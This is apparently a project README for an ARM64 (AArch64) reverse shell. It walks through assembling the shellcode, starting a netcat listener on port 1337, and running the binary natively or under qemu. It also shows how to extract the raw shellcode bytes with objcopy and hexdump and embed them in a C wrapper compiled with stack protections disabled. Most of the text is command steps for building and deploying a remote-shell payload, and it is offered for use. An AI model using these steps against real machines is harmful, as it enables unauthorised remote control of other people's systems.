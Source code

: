# ARM-Shellcode 🐚
ARM AARCH64 Reverse Shell.

> Note 💡
I am still fixing the ASM code with the prompt to be fully functional and cooperative with the wrapper code. For some reason, I am getting an unbelievable amount of null-bytes within it upon extracting the shellcode. That doesn't appear to happen with `arm-revshell.s`. I will be solving this soon.

## Custom Prompt PoC


# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell.o && ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell.s -o arm-revshell.o && aarch-linux-gnu-ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell arm-revshell.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**

